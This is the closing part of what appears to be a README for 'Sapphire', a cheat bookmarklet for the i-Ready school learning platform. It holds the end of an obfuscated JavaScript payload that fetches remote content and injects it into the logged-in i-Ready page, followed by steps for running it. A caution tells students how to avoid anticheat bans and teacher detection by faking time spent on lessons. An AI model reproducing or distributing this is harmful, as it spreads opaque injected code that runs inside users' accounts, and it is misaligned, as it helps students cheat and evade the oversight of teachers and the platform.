Tpl:fRPLwmU(17)}),p3n0km7!==location[Oz6bwi.Ze39T_f]){function%20yJbuoe4(gqsYGxv){return%20c7bg1Q2[104%3EgqsYGxv%3F104%3CgqsYGxv%3FgqsYGxv-0:74%3CgqsYGxv%3F74%3CgqsYGxv%3F104%3CgqsYGxv%3FgqsYGxv-96:104%3CgqsYGxv%3FgqsYGxv+57:74%3EgqsYGxv%3FgqsYGxv-92:gqsYGxv-75:gqsYGxv+2:gqsYGxv+84:gqsYGxv-27]}var%20G50XPAt;return%20G50XPAt=fRPLwmU(wodfbG4(-76)),location[fRPLwmU(yJbuoe4(87))]=G50XPAt,cOjySPZ(-604)(fRPLwmU(13))}let%20E3N75UI=(cOjySPZ(-wodfbG4(-69))[fRPLwmU(14)](fRPLwmU(u457kSb(111))),await(await%20cOjySPZ(wodfbG4(-68))(cIgtvcT[u457kSb(98)]))[D_xE7rG.jBJTpl]());E3N75UI=E3N75UI[l3yV9zv](/%3C\/body%3E/,EkeB8w),cOjySPZ(-57)[fRPLwmU.apply(wodfbG4(-81),[wodfbG4(-73)])][fRPLwmU(21)+wodfbG4(-67)][fRPLwmU(14)](E3N75UI),!cOjySPZ(-wodfbG4(-71))[fRPLwmU(wodfbG4(-73))][gqsYGxv[0]][fRPLwmU(23)]({},%22%22,fRPLwmU(24)+fRPLwmU(25)+gqsYGxv[u457kSb(102)]+gqsYGxv[2])})(),!VJ3Wito(cOjySPZ,wodfbG4(-83))}();</code></pre>
    </li>
    <li>Save the bookmark, you can name it anything you want or you can choose to make it blank.</li>
    <li>Go to <a href="https://login.i-ready.com/login">https://login.i-ready.com/login</a> after you have logged onto your account and run the bookmark.</li>
    <li>Now, Sapphire should have loaded.</li>
</ol>

> [!CAUTION]
This hack has a chance of getting your account banned from i-Ready, in order to avoid this ban you must answer a minimum of 4-6 questions and spend 5+ minutes on the lesson before skipping, teachers can also see how long you spend on a lesson so it's recommended you spend a decent amount of time before skipping regardless of the anticheat.

<h2 align="center">Discord</h2>
<h4 align="center">
    Join the <a href="https://discord.gg/edgM4MuT6E">Discord</a> for additional support with the hack, or to ask any questions you may have.
</h4>

